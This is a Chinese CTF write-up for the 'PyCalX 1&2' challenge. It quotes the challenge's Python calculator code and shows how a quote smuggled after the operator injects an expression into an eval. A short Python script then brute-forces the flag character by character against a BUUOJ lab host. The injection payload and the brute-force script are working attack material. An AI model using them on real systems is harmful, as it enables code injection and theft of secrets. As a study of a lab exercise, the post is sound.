 ```yaml
---
title: PyCalX 1&2
date: 2025-02-24 21:02:01
tags: 爆破
categories: 刷题笔记
---
```


## PyCalX 1&2

我们点击source查看代码

(放了关键代码)

```py
 def get_value(val):
        val = str(val)[:64]
        if str(val).isdigit(): return int(val)
        blacklist = ['(',')','[',']','\'','"'] # I don't like tuple, list and dict.
        if val == '' or [c for c in blacklist if c in val] != []:
            print('<center>Invalid value</center>')
            sys.exit(0)
        return val

    def get_op(val):
        val = str(val)[:2]
        list_ops = ['+','-','/','*','=','!']
        if val == '' or val[0] not in list_ops:
            print('<center>Invalid op</center>')
            sys.exit(0)
        return val

    op = get_op(arguments['op'].value)
    value1 = get_value(arguments['value1'].value)
    value2 = get_value(arguments['value2'].value)

    if str(value1).isdigit() ^ str(value2).isdigit():
        print('<center>Types of the values don\'t match</center>')
        sys.exit(0)

    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))

    print('<div class=container><div class=row><div class=col-md-2></div><div class="col-md-8"><pre>')
    print('>>>> print('+escape(calc_eval)+')')
```

我们发现对value1，op和value2的值进行了过滤

且op的第一个字母是`+-*/!`的一种，value和value2的值只能为数字

简单来说这个网页就是个计算器

执行代码为

```py
    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))
    
    print('+escape(calc_eval)+')')

'''   
    '1'      +      '1'
	value1  op  vlaue2
''' 
```

由于op只判断了第一个值，我们可以在其后添加单引号，并注释后面的单引号

```
'1'                   +'      ' and source in FLAG#
value1            op       value2
```

我们可以看到op输入+’，成功闭合语句。然后再value2的地方构造语句。

这里的value由于and的存在限定了返回值只能为True/False，也就是1/0

然后我们爆破source就可以了

```py
import string

import requests
url="http://87bdc0c3-313e-4b71-b738-905d58ce6d15.node5.buuoj.cn:81/cgi-bin/pycalx.py?value1=test&op=%2B'&value2=and source in FLAG%23&source="
st=string.ascii_letters+string.digits+"{}_-"
flag="flag{"

for j in range(50):
    for i in st:
        r=requests.get(url+flag+i)
        print(url+flag+i)
        if "True" in r.text:
            flag+=i
            print(flag)

```

得到flag

![image-20250225163342684](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502251633823.png)

